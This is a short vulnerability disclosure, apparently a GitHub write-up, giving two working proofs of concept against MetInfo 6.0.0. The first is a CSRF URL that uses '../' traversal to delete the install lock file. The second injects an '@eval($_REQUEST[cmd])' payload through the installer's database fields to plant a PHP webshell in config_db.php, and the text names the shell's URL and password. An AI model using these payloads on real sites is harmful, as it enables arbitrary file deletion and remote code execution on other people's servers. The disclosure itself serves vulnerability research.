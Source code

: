 ## MetInfo 6.0.0 CSRF causes any file deletion

POC:`http://localhost/MetInfo6.0.0/admin/app/batch/csvup.php?fileField=test-1&flienamecsv=../../../config/install.lock`

## MetInfo 6.0.0 `install\index.php` write shell to `config_db.php`
*code:*
```
# \MetInfo6.0.0\install\index.php

$db_username    = trim($db_username);
$db_pass        = trim($db_pass);
$db_name        = trim($db_name);
$db_port        = trim($db_port);
$config="<?php
       /*
       con_db_host = \"$db_host\"
       con_db_port = \"$db_port\"
       con_db_id   = \"$db_username\"
       con_db_pass	= \"$db_pass\"
       con_db_name = \"$db_name\"
       tablepre    =  \"$db_prefix\"
       db_charset  =  \"utf8\";
      */
      ?>";

$fp=fopen("../config/config_db.php",'w+');
fputs($fp,$config);
fclose($fp);
$db = mysqli_connect($db_host,$db_username,$db_pass,'',$db_port) or die('连接数据库失败: ' . mysqli_connect_error());
```
Database configuration during installation, select any parameter to enter `*/@eval($_REQUEST[cmd]);/*` and submit.Then config_db.php file is as follows:
```
<?php
                   /*
                   con_db_host = "localhost"
                   con_db_port = "3306"
                   con_db_id   = "root"
                   con_db_pass	= "asdasdas"
                   con_db_name = "*/@eval($_REQUEST[cmd]);/*"
                   tablepre    =  "met_"
                   db_charset  =  "utf8";
                  */
                  ?>
```
webshell:`http://127.0.0.1/MetInfo6.0.0/config/config_db.php`
password: cmd